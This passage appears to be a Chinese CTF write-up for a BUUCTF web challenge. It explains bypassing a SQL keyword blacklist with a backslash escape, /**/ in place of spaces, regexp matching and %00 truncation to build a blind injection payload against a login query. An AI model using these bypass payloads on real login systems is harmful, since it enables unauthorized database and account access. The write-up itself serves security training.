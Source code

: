 ```
select * from users where username='' and passwd=''
```

先搜集一下其他信息: 访问`robots.txt`发现有提示:

![image-20221030090348304](/images/buuctf-web4/image-20221030090348304.png)

`hint.txt`中直接给了过滤词,而且说只要密码是admin的密码就可以:

```
$black_list = "/limit|by|substr|mid|,|admin|benchmark|like|or|char|union|substring|select|greatest|%00|\'|=| |in|<|>|-|\.|\(\)|#|and|if|database|users|where|table|concat|insert|join|having|sleep/i";


If $_POST['passwd'] === admin's password,

Then you will get the flag;
```

过滤得好多.. 这里先分析一下, 这里用户名甚至都没法用`admin`,基本的过滤方法都没法用

这里转义符没被过滤,双引号没被过滤,分号没被过滤

这里试一下`转义符`,`username`输入`\`

这样整个语句就变成了:

```
select * from users where username='\' and passwd=''
username后面的单引号被注释掉, 前面的单引号被迫和passwd后的单引号闭合,这样查询时的username的值为:
' and passwd=
```

因为题目要求最后passwd的值需要通过验证,所以重新构造一个`passwd`:

```
这里被过滤的空格使用/**/代替,等于号和like被过滤,这里换成正则匹配regexp
select * from users where username='\' and passwd='||username/**/regexp/**/"^a";%00'
这里因为已知username的值为admin,所以 先让username去正则匹配一下a开头
这里passwd的值输入:||username/**/regexp/**/"^a";%00
(这里%00是为了截断后面的单引号,虽然它是过滤词,但是在发送请求的过程中%00就被编码了,所以不会被检测处来)
```

<img src="/images/buuctf-web4/image-20221030093402613.png" alt="image-20221030093402613" style="zoom:67%;" />
